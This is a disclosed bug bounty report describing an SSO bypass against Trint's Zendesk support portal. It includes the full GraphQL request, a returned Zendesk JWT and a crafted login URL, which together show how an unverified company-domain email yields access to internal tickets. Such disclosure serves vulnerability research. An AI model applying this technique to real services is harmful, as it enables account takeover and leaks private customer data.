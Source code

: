# SSO bypass in zendesk using trint organization able to leak internal ticket information

## Report Details
- **Report ID**: 734936
- **URL**: https://hackerone.com/reports/734936
- **State**: Closed
- **Severity**: high
- **Submitted**: 2019-11-11T12:36:00.343Z
- **Disclosed**: 2020-08-24T15:43:29.461Z

## Reporter
- **Username**: sopankbegitu
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: trint

## Vulnerability Information
#Summary
hello there because in `app.trint.com` there's no email verification i able to login in your `zendesk SSO` using your organization
your organization using domain `*@trint.com` because there's no email verification i able to read and takeover + claim this email
`support+1@trint.com` and i able to login in zendesk SSO using that email.

#How to reproduce
* i registered in `app.trint.com` using this email `support+1@trint.com` until registration step finish
* i check my burp history there's a `graphql` request in this host `https://graphql2.trint.com/`
* i use this query

```
POST / HTTP/1.1
Host: graphql2.trint.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://app.trint.com/
content-type: application/json
Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJodHRwczovL2FwcC50cmludC5jb20vdXNlcklkIjoiNWRjOTUwZWEzOGFhMjI3MmExNzAyMzFkIiwiaHR0cHM6Ly9hcHAudHJpbnQuY29tL2lzTmV3VXNlciI6dHJ1ZSwiaHR0cHM6Ly9zY2hlbWEudHJpbnQuY29tL2F1dGhqdGkiOiI0ZmMwMjUyZS03NTFiLTQwNjctOWU0MC00OGQ4MWMzMjRiMjIiLCJpc3MiOiJodHRwczovL3RyaW50LmF1dGgwLmNvbS8iLCJzdWIiOiJhdXRoMHw1ZGM5NTBlYTM4YWEyMjcyYTE3MDIzMWQiLCJhdWQiOiJ0cmludC1hcGlzIiwiaWF0IjoxNTczNDc0NTQyLCJleHAiOjE1NzYwNjY1NDIsImF6cCI6ImljaDRoeVZZUEtLZ2VFb1RoNmZXUFhjNmZydmVUY1RxIiwiZ3R5IjoicGFzc3dvcmQifQ.JyIc6PZyjidptrvaFT6MykOr0BopUi1F7fZWTvbeKeU
X-Trint-Request-Id: 4b2f23d5-98a3-4571-a9e1-4218cca76e1b
X-Trint-Super-Properties: {}
Origin: https://app.trint.com
Content-Length: 111
Connection: close

{"operationName":null,"variables":{"status":"PENDING"},"query":"query zendeskToken {\n    zendeskToken\n  }\n"}
```

>response header
```
HTTP/1.1 200 OK
Date: Mon, 11 Nov 2019 12:17:06 GMT
Content-Type: application/json
Content-Length: 272
Connection: close
X-Powered-By: Express
Access-Control-Allow-Origin: *
Vary: Accept-Encoding

{"data":{"zendeskToken":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpYXQiOjE1NzM0NzQ2MjYsImp0aSI6IjcwOWM2Njg3LWI3OWUtNDI2ZC04MjJhLWVkYTUyYzM3ZDAyYyIsIm5hbWUiOiJzZGFkc2FzZGEgYXNkc2FkYXMiLCJlbWFpbCI6InN1cHBvcnQrMUB0cmludC5jb20ifQ.G8VnRzcF5vkDl4X36_-olJNjtdawMn5G0KaL0FHPdQM"}}
```

* i crafted this url `https://trintsupport.zendesk.com/access/jwt?jwt=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpYXQiOjE1NzM0NzQ2MjYsImp0aSI6IjcwOWM2Njg3LWI3OWUtNDI2ZC04MjJhLWVkYTUyYzM3ZDAyYyIsIm5hbWUiOiJzZGFkc2FzZGEgYXNkc2FkYXMiLCJlbWFpbCI6InN1cHBvcnQrMUB0cmludC5jb20ifQ.G8VnRzcF5vkDl4X36_-olJNjtdawMn5G0KaL0FHPdQM`

* boom logged in in ticket using email `support+1@trint.com`

#POC

{F631462}

## Impact

#Impact
* i can read your ticket organization request through `https://support.trint.com/hc/en-us/requests/organization`

## Attachments
- Screen_Shot_2019-11-11_at_19.32.53.png
- sso_bypass_trint.mov
